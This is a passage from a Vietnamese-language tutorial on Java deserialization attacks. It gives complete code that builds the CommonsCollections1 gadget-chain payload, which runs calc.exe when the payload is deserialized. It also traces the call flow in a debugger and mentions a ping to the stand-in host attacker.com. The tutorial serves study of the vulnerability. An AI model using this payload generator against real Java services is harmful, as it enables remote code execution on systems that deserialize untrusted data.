    public static void main(String... args) throws ClassNotFoundException, IllegalAccessException, InvocationTargetException, InstantiationException, IOException {  
        // Command  
        String[] execArgs = {"calc.exe"};  
  
        // Create a ChainTransformer to invoke that command.  
        final Transformer[] transformers = new Transformer[] {  
                new ConstantTransformer(Runtime.class),  
                new InvokerTransformer("getMethod", new Class[] {  
                        String.class, Class[].class }, new Object[] {  
                        "getRuntime", new Class[0] }),  
                new InvokerTransformer("invoke", new Class[] {  
                        Object.class, Object[].class }, new Object[] {  
                        null, new Object[0] }),  
                new InvokerTransformer("exec",  
                        new Class[] { String.class }, execArgs),  
                new ConstantTransformer(1) };  
  
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);  
  
        // Create a LazyMap  
        Map map = new HashMap<>();  
        Map lazyMap = LazyMap.decorate(map, chainedTransformer);  
  
        // Init a `sun.reflect.annotation.AnnotationInvocationHandler` object  
        Class cls = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");  
        final Constructor<?> constructor = cls.getDeclaredConstructors()[0];  
        constructor.setAccessible(true);  
        InvocationHandler lazyMapInvocationHandler = (InvocationHandler) constructor.newInstance(Override.class, lazyMap);  
        Map evilProxy = (Map) Proxy.newProxyInstance(CommonsCollections1.class.getClassLoader(), new Class[]{Map.class}, lazyMapInvocationHandler);  
  
        InvocationHandler serializedProxyInvocationHandler = (InvocationHandler) constructor.newInstance(Override.class, evilProxy);  
  
        serialize(serializedProxyInvocationHandler);  
    }  
  
    public static void serialize(Object object) throws IOException {  
        FileOutputStream fileOut = new FileOutputStream("payload_cc1.bin");  
        ObjectOutputStream out = new ObjectOutputStream(fileOut);  
        out.writeObject(object);  
        out.close();  
        fileOut.close();  
    }  
}
```

##### ✅ **Bước 2: Test payload với chương trình deserialization (phần 2a)**

Dùng lại chương trình bạn đã viết ở **phần 2a** 

```js
FileInputStream fis = new FileInputStream("payload_cc1.bin");  
ObjectInputStream ois = new ObjectInputStream(fis);  

Object obj = ois.readObject();
```

###### a. CommonsCollections1 gadget hoạt động như thế nào?

`CommonsCollections1` là một chuỗi gadget có trong thư viện `commons-collections:3.1` hoặc tương tự. Khi deserialize object này, Java sẽ **gọi tự động các hàm `readObject()`, `hashCode()`, `equals()`...**, và trong chuỗi thực thi sẽ có đoạn như sau:

```js
Runtime.getRuntime().exec("calc.exe");
```

→ Không cần người lập trình viết dòng nào liên quan đến `exec()` trong ứng dụng, đoạn mã trên **tự động được chạy khi deserialize** object.

###### b. Tại sao `readObject()` có thể gây RCE?

Vì `ObjectInputStream.readObject()`:

- Gọi `readObject()` của từng class trong object
    
- Các method override như `hashCode()`, `compare()`, `transform()` sẽ bị gọi
    
- Nếu chuỗi object được thiết kế ác ý, những method này sẽ có logic gọi `Runtime.getRuntime().exec(...)`
    
**=> Chỉ cần deserialize là code sẽ bị thực thi.**

##### ✅ **Bước 4: Debug bằng IntelliJ (hoặc Eclipse)**

1. **Đặt breakpoint tại dòng `Object obj = ois.readObject();`**.
    
2. **Chạy debug** (Shift + F9 trong IntelliJ).
    
3. **Step into (F7)** để theo dõi flow:
    
    - `ObjectInputStream.readObject()`
        
    - `AnnotationInvocationHandler.readObject()`
        
    - `ProxyMap.entrySet()`
        
    - `invoke()`
        
    - `LazyMap.get()`
        
    - `ChainedTransformer.transform()`
        
    - Gọi `Runtime.getRuntime().exec("calc.exe")`

##### **Kết quả:**

Mở Calc



Ping đến attacker.com



## Tài Liệu Tham Khảo
### Phân tích lỗ hổng unsafe deserialization của Liferay : https://hackmd.io/@janlele91/B174IYjfn?utm_source=preview-mode&utm_medium=rec

### Phân tích gadget CommonsCollections1 : https://hackmd.io/@janlele91/H1epEvTmh
